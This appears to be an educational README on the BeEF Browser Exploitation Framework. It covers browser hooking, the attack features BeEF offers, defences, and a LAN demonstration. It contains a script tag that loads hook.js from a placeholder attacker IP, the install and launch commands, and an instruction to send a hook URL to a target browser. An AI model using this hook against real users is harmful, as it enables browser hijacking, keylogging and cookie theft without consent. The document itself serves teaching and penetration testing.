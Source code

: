 # BeEF Framework
## Introduction
According to [1][1] around 45% of Web users are not updating to the latest versions of their browsers with the up-to-date security measures, which empowers various tools to exploit their browsers' vulnerabilities. BeEF which is the short term of Browser Exploitation Framework, initiated in 2006 by Wade Alcorn is an open-source hacking and penetration testing tool, mainly to perform web browser attacks and exploit vulnerabilities using a capable and simple user interface [2][2]. 
## Browser Exploitation
Generally, an exploit is any code that utilizes vulnrabilities in an operating system or a piece of software to perform malicious actions. Browser or website exploitation takes advantage of a web browser vulnerability and breach a web browser security to alter a user's browser settings without their knowledge [3][3]. 
## What Does BeEF Do?
BeEF evades network security measures and anti-virus applications in the host system by exploiting vulnerabilities in web browsers [4][4]. It focuses on taking advantage of a web browser’s vulnerabilities to hijack and take control of the target. By “hooking” one or many number of browsers, the attacker starts launching various type of commands that attacks the browser and further attacks the system [4][4]. In order to perform an attack, the attacker generates a customized URL that includes a JavaScript hook and forwards it to the targeted user using emails, social network links and many other possible ways to open it [5]. 
```javascript
<script src="http://Attacker’s_IP_Address:3000/hook.js"></script>
```
Once an unaware user opens the received URL, the browser is hooked without noticing any unusual activity while the attacker accesses the user’s session. Hence, the attacker will have access to the targeted browser and will be able to launch MITM attacks, Social Engineering attacks, Phishing, Cookie Hijacking, Webcam Enabling, Information Gathering, and many other commands that may further attack the host system.
## How Does It Work?
When the attacker starts BeEF, the User Interface and Communication Server are started.

![alt text](https://github.com/yazan828/Test/blob/main/BeEFUI.PNG "BeEF User Interface")

The method BeEF follows to hook web browsers consists of three phases Initiating, Retaining, and Attacking. During initiating, the user opens the received URL and the browser executes the hook that contains instructions to initiate a communication channel between the hooked browser and the attacker. In the retaining phase, an active communication channel is established to start the attacking phase. Using Communication Servers, the attacker is able to communicate with the hooked browsers via HTTP. Lastly, after hooking the browser and establishing an active channel for communication, the attacker can start delivering JavaScript payloads and sending various commands through the User Interface. BeEF offers a variety set of features such as [6][6],[7][7]: 
* Key logging
* Using hooked browser as proxy
* Many social engineering techniques
* Integration with Metasploit Framework 
* Phishing attacks

![alt text](https://github.com/yazan828/Test/blob/main/Command.PNG "Various BeEF Commands")

![alt text](https://github.com/yazan828/Test/blob/main/Diagram.png "BeEF Attack Scenario [6]")

The figure above demonstrates an overview of a client attack using BeEF by injecting the script into the hook and forwarding it to the target. 
## Who Uses BeEF & Why Is It Useful?
The primary purpose of BeEF is to allow qualified penetration testers to evaluate the security measures of web browsers and examine exploitability by simulating the attacks. However, BeEF is also used by hackers who are either targeting specific victims or spreading hooks through the network to gather sensitive information without consent. Plus, BeEF is continuously being used for educational purposes due to its simplicity and strong capability [4][4]. 
## How To Protect Against BeEF?
To protect a browser against BeEF or any other browser explotation tool, a number  of steps should be taken:
* Continously update you browser
When a vulnerability in a web browser is found, the vendor often releases a patch to fix the issue causing it. Hence, updating web browser provides protection against more recent exploits.
* Do not click on suspicious links or attachments
Most social engineering techniques are often used by tricking targets to open URLs to suspicious websites. Hence, verifying that an attachment is legitimate is important before clicking it. There are multiple online tools to check if the recieved URL is safe or not such as [11]
* Install firewall and other security software
Firewalls act as a strong barrier between the internet and the web browser which detects, blocks suspicious websites, and catches threats before breaching web security 
## Demonstration
This is a short demonstration on how BeEF Framework works on LAN networks. To start, you can install BeEF in few quick steps. (See [8][8] if you encouter any errors)
```console
$ git clone https://github.com/beefproject/beef.git
$ cd /beef
$ ./install
```
Now you are ready to launch BeEF by typing:
```console
$ beef-xss
```
Now, BeEF will start on your coomand line and will open a web user interface
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Start.png)
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Authentication.png)
After inserting your credentials, you can now access the user panel.
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/UI.png)
Send the following hook to the targeted browser
```
http://Your_IP_Address:3000/demos/butcher/index.html
```
Once the user opens the URL, the targeted browser is now hooked
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Hook.png "Hook Page on Targeted Browser")
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Hooked.png "Hooked Browser as Seen From the Attacker Panel")

Now, the attacker has access to the target's browser and is able to send many different commands from the commands window.
## Additional Resources
As mentioned before, the actual version of BeEF Framework works only over LAN Networks. Hence, some developers have developed tools that facilitate with BeEF to operate remotely over WAN such as [9][9],[10][10]


[1]: https://writingbros.com/essay-examples/an-in-depth-look-at-browser-exploitation-using-beef-framework/
[2]: https://github.com/beefproject/beef/wiki#overview
[3]: https://www.ericom.com/whatis/browser-exploit/
[4]: https://www.researchgate.net/publication/322398374_Web_Browser_Attack_Using_BeEF_Framework
[5]: https://www.secureideas.com/blog/2013/06/getting-started-with-beef-browser.html#:~:text=BeEF%2C%20the%20Browser%20Exploitation%20Framework,environment%2C%20bypassing%20the%20hardened%20perimeter.
[6]: https://ro.ecu.edu.au/cgi/viewcontent.cgi?article=1131&context=adf
[7]: https://github.com/beefproject/beef/wiki/How-BeEF-Works
[8]: https://github.com/beefproject/beef
[9]: https://github.com/AzizKpln/Beef-Over-AWS
[10]: https://github.com/stormshadow07/BeeF-Over-Wan
[11]: https://search.google.com/search-console/welcome?action=inspect&utm_medium=referral&utm_campaign=9012289
